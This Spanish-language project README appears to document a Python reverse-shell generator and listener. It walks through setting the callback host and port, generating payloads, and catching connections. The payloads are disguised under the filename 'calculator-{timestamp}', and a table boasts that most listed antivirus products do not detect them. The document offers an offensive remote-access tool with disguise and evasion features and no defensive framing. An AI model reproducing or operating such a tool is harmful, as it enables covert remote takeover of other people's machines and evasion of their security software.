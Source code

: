 # Reverse Shell

Proyecto que consiste en generar un payload de reverse shell en python, el cual se ejecuta en la máquina objetivo y se conecta a un servidor controlado por el atacante.

- [Reverse Shell](#reverse-shell)
  - [Requisitos](#requisitos)
  - [Instalación](#instalación)
  - [Uso](#uso)
  - [Comandos](#comandos)
  - [Ejemplos](#ejemplos)
  - [Pruebas realizadas en antivirus](#pruebas-realizadas-en-antivirus)
  - [Capturas](#capturas)

## Requisitos

- ![Static Badge](https://img.shields.io/badge/Python-^3.12-yellow?logo=python&logoColor=white)

## Instalación

Clona el repositorio

```bash
git clone https://github.com/epmyas2022/reverse_shell.git
```

Entra al directorio del proyecto

```bash
cd reverse_shell
```

Instala las dependencias

```bash
pip install -r requirements.txt
```

## Uso

```bash
python reverse_shell.py
```

## Comandos

- `help`: Muestra la lista de comandos disponibles.
- `generate`: Genera un payload de reverse shell en python.
- `execute`: Inicia un servidor que escucha las conexiones de los payloads generados.
- `set`: Establece el valor de una variable.
- `exit`: Salir del programa.

## Ejemplos

Generar un payload de reverse shell especificando la dirección IP y el puerto del servidor

El siguiente comando setea la direccion IP del payload:

```bash
set generate.lhost 10.0.0.20
```

El siguiente comando setea el puerto del payload:

```bash
set generate.lport 4444
```

El siguiente comando genera el payload:

```bash
generate
```

![Reverse Shell Generate Command](./images/payload.png)

Los payloads generados se guardan en la carpeta raíz del proyecto. con el siguiente nombre: `calculator-{timestamp}`

Iniciar el servidor que escucha las conexiones de los payloads generados

El siguiente comando setea el puerto del servidor:

```bash
set session.lport 4444
```

El siguient comando setea el host del servidor:

```bash
set session.lhost
```

El siguiente comando inicia el servidor:

```bash
execute
```

![Reverse Shell Execute Command](./images/execute.png)

Para detener la escucha del servidor, presiona `Ctrl + C`

Para salir de la sesión, ejecuta el comando `exit`

## Pruebas realizadas en antivirus

✅ = No detectado
❌ = Detectado

- Windows Defender [✅]
- Avast [❌]
- ESETNOD32 [✅]
- McAfee [✅]
- Bitdefender [✅]

## Capturas

![Reverse Shell](./images/image.png)

